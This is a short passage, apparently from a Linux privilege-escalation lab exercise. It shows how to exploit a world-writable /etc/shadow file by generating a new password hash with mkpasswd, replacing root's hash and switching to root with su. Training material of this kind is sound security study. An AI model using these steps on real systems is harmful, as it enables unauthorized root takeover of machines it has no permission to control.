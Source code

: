 The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

`ls -l /etc/shadow`

Generate a new password hash with a password of your choice:

`mkpasswd -m sha-512 newpasswordhere`

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

`su root`